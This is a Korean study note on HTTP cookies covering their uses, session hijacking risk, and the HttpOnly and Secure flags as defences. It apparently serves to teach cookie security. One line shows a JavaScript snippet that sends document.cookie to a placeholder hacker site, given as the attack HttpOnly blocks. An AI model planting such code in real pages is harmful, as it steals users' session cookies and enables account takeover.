 ### 쿠키의 사용 목적

1. 세션관리  
   (ex) 서버에 저장해야 할 로그인, 장바구니, 게임 스코어 등
2. 개인화  
   사용자 선호, 테마등의 정보
3. 트래킹  
   사용자 행동을 기록하고 분석

### 사전 지식

1. 어떠한 서버도 HTTP통신을 한다면 쿠키를 주고받을 수 있다.
2. 클라이언트에서도 쿠키에 접근하고 관리할 수 있다.
3. HTTP와 HTTPS 사이에도 쿠키를 교환할 수 있다.
4. 같은 도메인이라면 서로 다른 Scheme일지라도 쿠키를 공유할 수 있다.
5. 쿠키는 서버든 클라이언트든 생성할 수 있다.
6. 쿠키가 생성되면 브라우저는 해당 쿠키 정보를 저장한다.
7. 생성 이후 발생하는 모든 Request에 쿠키를 포함하여 서버에 전달한다.

### 보안 위협

- 수많은 사이트들에서 민감한 개인정보를 쿠키에 저장하고 있는데, 해커들은 다양한 바업으로 이 쿠키를 탈취하려고 한다. (세션 하이재킹 공격)
- `HTTP`는 `Stateless` 프로토콜이기 때문에 기본적으로 상태 정보를 저장하지 않는다.
  1. 요청자가 누구인지, 같은 사람이었는지를 식별할 수 없다.
  2. 식별을 위한 데이터 저장 용도로 쿠키를 사용
  3. 식별 정보가 포함된 쿠키를 해커가 탈취하면 해당 사용자로 위장할 수 있다.

### 보안 강화 방법

#### HTTP only Cookies

`Set-Cookie: 쿠키명=쿠키값; path=/; HttpOnly`

위와같이 `Set-Cookie` 헤더에 `HttpOnly`를 추가하여 적용할 수 있다.g

- 브라우저에서 쿠키에 접근할 수 없도록 제한한다.  
  이를 통해 아래와 같이 자바스크립트로 쿠키를 가로채려는 시도를 막을 수 있다.  
  `location.href= "<http://해커사이트/?cookies=>" + document.cookie;`

#### Secure Cookies

`Set-Cookie: 쿠키명=쿠키값; path=/; secure`

- `HTTP Only Cookie`로 javascript의 쿠키 탈취는 막을 수 있지만 네트워크 트래픽에서 쿠키를 가로채는 것까지는 막지 못한다.
- 통신상의 유출을 막기 위해 HTTPS 프로토콜을 사용하여 데이터를 암호화 하는 방법이 주로 사용된다.  
  (HTTPS 사용시 쿠키까지 암호화되어 전송되기 때문에 제3자는 내용을 알 수 없다.)
- 실수로 HTTP를 통해 통신을 하는 경우 쿠키를 탈취당할 수 있는데 이를 방지하기 위해 쿠키 생성시 `secure` 접미사를 붙이면 HTTPS가 아닌경우 쿠키를 전송하지 않는다.

[참고](https://nsinc.tistory.com/121)
